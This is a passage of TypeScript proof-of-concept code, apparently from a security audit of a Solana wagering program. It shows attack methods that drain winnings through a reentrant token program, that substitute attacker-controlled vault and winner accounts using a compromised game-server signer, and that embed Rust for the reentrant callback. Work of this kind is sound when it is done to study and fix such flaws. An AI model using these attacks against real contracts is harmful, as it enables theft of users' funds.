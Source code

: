 ```typescript
                gameSession: this.getSessionPDA(sessionId),
                gameServer: this.gameServerKeypair.publicKey,
                vault: this.getVaultPDA(sessionId),
                winner1: this.attackerAccounts[0],
                winner2: this.attackerAccounts[1],
                winner3: this.attackerAccounts[2],
                winner4: this.attackerAccounts[3],
                winner5: this.attackerAccounts[4],
                tokenProgram: reentrantProgram, // ❌ Reentrant program
            })
            .signers([this.gameServerKeypair])
            .rpc();

        // 6. Malicious program triggered multiple distributions
        console.log("Reentrancy attack completed");
    }

    async executeAccountSubstitutionAttack(sessionId: string): Promise<void> {
        // 7. Create fake accounts that look legitimate
        const fakeVault = await this.createFakeVault();
        const fakeWinnerAccounts = await this.createFakeWinnerAccounts();

        // 8. Use fake accounts in distribution
        await this.wagerProgram.methods
            .distributeWinnings(sessionId, 0)
            .accounts({
                gameSession: this.getSessionPDA(sessionId),
                gameServer: this.compromisedGameServer.publicKey,
                vault: fakeVault, // ❌ Attacker's vault
                winner1: fakeWinnerAccounts[0], // ❌ All attacker accounts
                winner2: fakeWinnerAccounts[1],
                winner3: fakeWinnerAccounts[2],
                winner4: fakeWinnerAccounts[3],
                winner5: fakeWinnerAccounts[4],
                tokenProgram: TOKEN_PROGRAM_ID, // Real program, fake accounts
            })
            .signers([this.compromisedGameServer])
            .rpc();

        // 9. All funds went to attacker's accounts
        console.log("Account substitution attack completed");
    }

    private async deployReentrantTokenProgram(): Promise<PublicKey> {
        // Program that calls back into wager program during transfer
        const reentrantCode = `
            pub fn transfer(ctx: Context<Transfer>, amount: u64) -> Result<()> {
                // Do actual transfer first
                spl_token::instruction::transfer(
                    &spl_token::ID,
                    &ctx.accounts.from.key(),
                    &ctx.accounts.to.key(),
                    &ctx.accounts.authority.key(),
                    &[],
                    amount
                )?;

                // Then call back into wager program
                let reentry_ix = create_additional_distribution();
                invoke(&reentry_ix, &ctx.accounts)?;

                Ok(())
            }
```